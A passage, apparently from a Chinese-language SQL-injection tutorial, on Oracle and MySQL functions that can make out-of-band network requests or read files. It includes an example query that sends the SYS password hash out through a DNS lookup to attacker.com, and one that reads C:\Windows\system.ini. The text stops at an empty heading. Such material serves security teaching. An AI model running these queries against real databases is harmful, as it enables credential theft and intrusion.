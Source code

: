 4.2.2 UTL_HTTP.REQUEST

UTL_HTTP包用于从SQL和PL/SQL中标注出HTTP。 它的程序REQUEST()回从给定的地址检索到的第1-2000字节的数据： UTL_HTTP.REQUEST('')

例如，为了获得http://test.example.com/index.php页面的前两千字节的数据，运行：

```
 SELECT UTL_HTTP.REQUEST('http://test.example.com/index.php') FROM DUAL;     

```

4.2.3 HTTPURITYPE.GETCLOB

HTTPURITYPE类的实例方法GETCLOB()返回从给定地址中检索到的CLOB（Character Large Object） HTTPURITYPE('').GETCLOB()

例如，从页面http://test.example.com/index.php开始内容检索 运行：

```
 SELECT HTTPURITYPE('http://test.example.com/index.php').GETCLOB() FROM DUAL;

```

4.2.4 DBMS_LDAP.INIT

DBMS_LDAP包使得PL/SQL程序员能够访问轻量级目录访问协议（LDAP）服务器。它的程序INIT()用于初始化与LDAP服务器的会话： DBMS_LDAP.INIT(('',)

例如：初始化与主机test.example.com的连接 运行：

```
 SELECT DBMS_LDAP.INIT(('test.example.com',80) FROM DUAL;

```

攻击者可以使用任何以上提到的Oracle子程序发起DNS请求。然而，在Oracle 11g中，除了DBMS_LDAP.INIT()以外的所有可能导致网络访问子程序都受到限制。 

4.2.5例子

以下例子是系统管理员（SYS）的密码哈希被Oracle程序DBMS_LDAP.INIT（）通过DNS解析机制传输：

```
 SELECT DBMS_LDAP.INIT((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.attacker.com',80) FROM DUAL;     

```

4.3 MySQL 
----------

* * *

4.3.1 LOAD_FILE

MySQL的函数LOAD_FILE()读取文件内容并将其作为字符串返回： LOAD_FILE('')

例如，要获取C:\Windows\system.ini文件的内容 运行：

```
 SELECT LOAD_FILE('C:\\Windows\\system.ini') ;     

```

4.3.2例子
